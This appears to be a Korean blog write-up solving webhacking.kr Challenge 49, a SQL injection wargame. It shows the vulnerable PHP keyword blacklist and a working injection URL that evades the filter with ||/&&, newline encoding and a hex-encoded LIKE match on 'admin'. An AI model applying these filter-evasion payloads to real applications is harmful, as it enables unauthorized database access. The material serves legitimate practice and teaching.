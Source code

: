 # 49

## 문제

```html
<html>
<head>
<title>Challenge 49</title>
</head>
<body>
<h1>SQL INJECTION</h1>
<form method=get action=index.php>
level : <input name=lv value=1><input type=submit>
</form>
```

다짜고짜 SQL 인젝션이라고 하면서 Form을 던져준다. `lv`값을 `1`로 주면 `zzibong`이란 문자열만 나온다.

## 풀이

```php
<?
if(time()<1258110000) exit();

if($_GET[lv])
{
if(eregi("union",$_GET[lv])) exit();
if(eregi("from",$_GET[lv])) exit();
if(eregi("select",$_GET[lv])) exit();
if(eregi("or",$_GET[lv])) exit();
if(eregi("and",$_GET[lv])) exit();
if(eregi("\(",$_GET[lv])) exit();
if(eregi("\)",$_GET[lv])) exit();
if(eregi("limit",$_GET[lv])) exit();
if(eregi(",",$_GET[lv])) exit();
if(eregi("/",$_GET[lv])) exit();
if(eregi("by",$_GET[lv])) exit();
if(eregi("desc",$_GET[lv])) exit();
if(eregi("asc",$_GET[lv])) exit();
if(eregi("cash",$_GET[lv])) exit();
if(eregi(" ",$_GET[lv])) exit();
if(eregi("%09",$_GET[lv])) exit();

$q=@mysql_fetch_array(mysql_query("select id from members where lv=$_GET[lv]"));

echo($q[0]);
if($q[0]=="admin") @solve();

}
?>
```

필터링 하는것도 참 많다. 다행히 몇가지 키워드는 다른 걸로 우회할 수 있다.

- `or`과`and` => `||`과 `&&`
- `%20`과 `%09` => `%0A`

`http://webhacking.kr/challenge/web/web-24/index.php?lv=1%0A%26%26id%0Alike%0A0x61646d696e`

`LIKE`를 써서 `admin`계정으로 바꿨다. 이 문제에서 내가 멍청했던 점

1. 자꾸 URL에서 `&`을 씀... `%26`으로 인코딩 시켜야 했던걸 풀기 5분전에 깨달음
2. `LIKE` 다음 문자열을 자꾸 `'` 넣어가면서 한거... `0x`형식으로 바꾸는게 좋구나

흑흑 인간은 망각의 동물